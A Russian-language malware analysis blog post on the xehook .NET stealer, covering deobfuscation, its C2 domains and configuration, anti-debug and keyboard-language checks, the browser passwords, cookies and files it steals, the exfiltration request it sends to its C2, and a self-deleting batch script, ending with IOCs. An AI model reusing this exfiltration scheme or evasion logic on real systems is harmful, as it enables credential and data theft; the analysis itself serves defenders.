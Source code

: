 ```yaml
---
title:  "Malware Analysis - xehook Stealer analysis"
date:   2024-02-29 00:01:00 +0300
author: cozy
categories: [malware, stealer]
---
```


### Introduction
Great Stealer, реально крутой стилак.
SHA256: `a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c`

### Stage 1
натравим de4dot
![](/images/xehook/1.png)\
вооот сразу видно наш народный virtualProtect и createThread. Запускаем, дампим и там будут байтики 0x4d 0x5a то есть **MZ** сигнатура.
![](/images/xehook/2.png)

### xeHook stealer
obfuscated with confuserEx
![](/images/xehook/3.png)

use de4dot\
![](/images/xehook/4.png)\
готовый бинарь кайф
![](/images/xehook/5.png)

Первый метод получает рандомную строку размером в 32 байта из символов "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789". Example: "OYGSQGUGRRQKK07OWWLYT6TE25JAIGKN". Данные байты в конечном итоге будут являться названием файла.
![](/images/xehook/6.png)\
следующий метод декодит C2: `https://trecube[.]com/`, `https://nc1337[.]online/`, а также обращается к C2. Если C2 возвращает `index.html` то ВПО работает с этим C2. В частности первый C2 вернул `index.html` поэтому все дальнейшие обращения будут к этому серверу.

Следующий метод конкатенирует строки с C2 для дальнейшего обращения и получения конфигурации: `https://trecube[.]com/getjson.php?id=40`. 
Получаемая конфигурация:
```Text
"{\r\n\t\"debug\": \"0\",\r\n\t\"emulate\": \"0\",\r\n\t\"virtualbox\": \"0\",\r\n\t\"virustotal\": \"0\",\r\n\t\"error\": \"0\",\r\n\t\"errorname\": \"NONE\",\r\n\t\"errtextbox\": \"NONE\",\r\n\t\"competitor\": \"0\",\r\n\t\"selfmelf\": \"1\",\r\n\t\"domaindetect\": \"facebook.com;linkedin.com;twitter.com\",\r\n\t\"filext\": \"*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed*\"\r\n}"
```
проверка на всякие залупы такие как, будет ли проверяться на vm, будет ли проверяться на debug. Также *domaindetect* это домены с которых желательно собирались бы креды??, а *filext* это расширения файлов которые будут спизжены в дальнейшем.

#### Debug features

Также присутсвтуют проверки на debug
![](/images/xehook/7.png)\
![](/images/xehook/8.png)\
В данном случае проверяются следующие запущенные процессы (Маловато?):
1. "processhacker"
2. "netstat"
3. "netmon"
4. "tcpview"
5. "wireshark"
6. "filemon"
7. "regmon"
8. "cain"


Check Ticks\
![](/images/xehook/9.png)\
Также с помощью WMI чекатеся фичи процессора путем выполнения команды: `Select * from Win32_ComputerSystem`
![](/images/xehook/10.png)
Идет обращение к `http://ip-api[.]com/line/?fields=hosting`
![](/images/xehook/11.png)\
Также идет проверка на языки клавиатуры, в частности если один из следующих языков присутсвтует, то ВПО завершает свое выполнение:
1. "ru-RU" (Наши братушки получается??)
2. "kk-KZ"
3. "ro-MD"
4. "uz-UZ"
5. "be-BY"
6. "az-Latn-AZ"
7. "hy-AM"
8. "ky-KG"
9. "tg-Cyrl-TJ"

![](/images/xehook/12.png)


#### Stealer features
Обращается к `http://ip-api[.]com/json/?fields=11827` которая в формате json отдает инфу о тачке
```json
{
    "country": "<country>",
    "countryCode": "<replaced>",
    "city": "<replaced>",
    "zip": "<replaced>",
    "isp": "<holding here_replaced>",
    "org": "<provider_replaced>",
    "as": "<some_data_too_about_provider_replaced>",
    "query": "<ip_here_replaced>"
}
```
кароч я все зареплейсил, но там буквально вся инфа.
весь пиздинг идет в этом методе.
![](/images/xehook/13.png)

пиздинг идет по всем расширениям из C2, а именно:
`*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed`
все найденные файлы данное ВПО упаковывает в .zip архив, формирует файл из тех 32 байтов которые получались в первом методе путем перестановки строки"ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".\
Данный файл сохраняется по пути `%LOCALAPPDATA%`. 
В частности: `%LOCALAPPDATA%\53Q98KXOBEQ1UDM2WFKRS8MOQDWDG1EL`

Также пиздятся autofill data, cookie и все что можно с браузеров спиздить.
Также делается screenshot экрана.
В данном методе формируется запрос, которые отправляется на C2. В частности формирутеся такой запрос: 

```text
https://trecube[.]com/gate[.]php?id=40&build=new_cloudnever&passwords=<pass_count>&cookies=<cookies_count>&username=<username>&country=<country>&ip=<ip_here>&BSSID=<md5hash_of_procID_and_Diskdrive_serialNumber>&wallets=<amount_of_wallets>&token=xehook40363717&ext=0&filters=0&pcname=<pc_name>&cardsc=0&telegram=False&discord=False&steam=False&domaindetect=
```


Данный запрос отправляется на C2 вместе с файлом который является большой зипкой,и затем происходит удаление данного файла.
![](/images/xehook/14.png)

В конце выполнения ВПО формирует *.bat* скрипт, а именно скрипт с названием *delete.bat* и сохраняет его в %TEMP%
![](/images/xehook/15.png)

Содержимое данного скрипта:
```cmd
@echo off
ping 127.0.0.1 -n 2 > nul
@ "del ""%DESKTOP%\a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c\dump2-cleaned.bin"""
@"del ""%TEMP%\delete.bat"""
```

В данном скрипте происходит пинг локалхоста, удаление оригинального исполняемого файла, а также удаленние .bat скрипта.

### Stolen data
Вся спизженная дата хранится в *%LOCALAPPDATA%* с рандомным именем состоящим из перестановки 32-х байтов  "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".

Данный файл состоит из зипок .zip, но его можно воспринимать как одну целую зипку, так что его можно просто распаковать.
Вот что хранится внутри данного .zip файла:
![](/images/xehook/16.png)\
Где:
1. Autofills это директория в которой находятся файлик со спизженой autofill датой из браузеров, в частности:\
![](/images/xehook/17.png)\
![](/images/xehook/18.png)\
2. Cookies - спизженные куки файлики.
![](/images/xehook/19.png)\
![](/images/xehook/20.png)
3. Files - все файлы с расширениями указанными в конфигурационном файле с C2, а именно `*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed*`
![](/images/xehook/21.png)\
![](/images/xehook/22.png)\
Внутри данных директорий находятся файлы с расширенями, в частности пример:
![](/images/xehook/23.png)\
4. About PC.txt - там находится вся инфа о пк, а также ахуенная stealerNote (записька стилера ;)) )
![](/images/xehook/24.png)\
Также она плейнтекстом

```text    


__  _____| |__   ___   ___ | | __
\ \/ / _ \ '_ \ / _ \ / _ \| |/ /
 >  <  __/ | | | (_) | (_) |   < 
/_/\_\___|_| |_|\___/ \___/|_|\_\

xehook Stealer — https://t[.]me/xehook

Build location: a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c\dump2-cleaned.bin
Build tag: <replaced>
Build version: 2.0.8 Stable

Launch time: <replaced>
IP address: <replaced> 
Postcode: <replaced>
Location: <replaced>

Computer: <replaced>
Username: <replaced>
OS: Windows 10 Pro (x64)
Language: <replaced>

Resolution: <replaced>
GPU: <replaced>
CPU: <replaced>
RAM: <replaced>
MAC: <replaced>

Device HWID: <md5_hash_replaced>

```


ну к слову записка реально ахуенная
5. Passwords.txt - файл с пароля с браузеров, а именно hostname - это url, Username - логин, Password - пароль, Browser - ну клиент типа.\
![](/images/xehook/25.png)\
6. Screenshot.jpg - скриншот во время выполнения ВПО. В частности делается внутри данного метода
![](/images/xehook/13.png)


### IOCS

| C2                       |
|--------------------------|
| https://trecube[.]com/   |
| https://nc1337[.]online/ |

| SHA256                                                           | File   |
| ---------------------------------------------------------------- | ------ |
| a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c | Stage1 |
| daea71a3094e0c90554a77e95b0b354d1515f99e70fa5013f09302a5bb04dde0 | xehook |


### Conclusion
крутой стилак че сказать норм.
